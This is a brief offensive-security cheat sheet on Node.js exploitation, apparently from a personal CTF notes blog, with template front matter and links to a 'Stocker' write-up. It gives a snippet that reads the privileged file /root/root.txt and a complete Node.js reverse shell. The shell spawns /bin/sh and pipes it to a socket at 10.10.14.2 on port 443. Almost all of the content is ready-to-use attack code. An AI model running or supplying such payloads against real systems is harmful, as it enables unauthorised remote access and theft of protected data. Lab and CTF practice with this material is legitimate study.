 ```yaml
---
description: >-
  NodeJS
title: NodeJS              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, NodeJS]                     # Change Templates to Writeup
tags: [exploitation, nodejs]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Read a file
Create a file test.js with content:
```bash
const fs = require('fs');

fs.readFile('/root/root.txt', 'utf-8', (err, data) =>{
        if (err) throw err;
        console.log(data);
});
```
To execute it we can use:
```bash
/usr/bin/node test.js
```
Examples:
[[Stocker#^d64ec2]]

### Reverse Shell
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
Examples:
[[Stocker#^2cf0f4]]